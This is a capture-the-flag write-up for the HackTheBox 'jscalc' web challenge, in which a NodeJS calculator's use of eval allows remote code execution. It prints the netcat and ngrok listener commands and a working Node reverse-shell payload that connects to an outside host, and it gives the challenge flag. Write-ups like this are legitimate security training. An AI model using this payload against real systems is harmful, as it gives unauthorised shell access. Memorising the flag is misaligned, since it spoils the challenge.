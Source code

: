 ```yaml
---
layout: post
author: k0d14k
title: HackTheBox - jscalc (web)
---
```


---

Tags: `NodeJS RCE`

---

> In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑
> 

In this challenge, We have a NodeJS calculator.

Our focus is to get the flag saved in `/flag.txt`. 

Reading the code We notice that, to provide the expression result, the server uses the `eval` function as follows:

![Untitled](Untitled.png)

This is an easy RCE (Remote Code Execution). We should be able to establish a reverse shell using `netcat` and `ngrok`.

In a terminal run:

```bash
nc -nvlp 1234
```

while in a second one run:

```bash
ngrok tcp 1234
```

Now, We can generate a reverse shell using [RevShells](https://www.revshells.com/).

There is just one thing you need to consider, the `calculate` function the `eval` is evaluating a function that returns our `formula`. So to correctly bind our reverse shell We need to wrap our reverse shell in a function.

Our final payload is:

```jsx
(function() {var net = require("net"), cp = require("child_process"), sh = cp.spawn("sh", []); var client = new net.Socket(); client.connect([port], "[ngrok tcp dns]", function(){client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;;}())
```

And there We go:

![Untitled](Untitled%201.png)

And in our terminal:

![Untitled](Untitled%202.png)

---

## Flag: HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}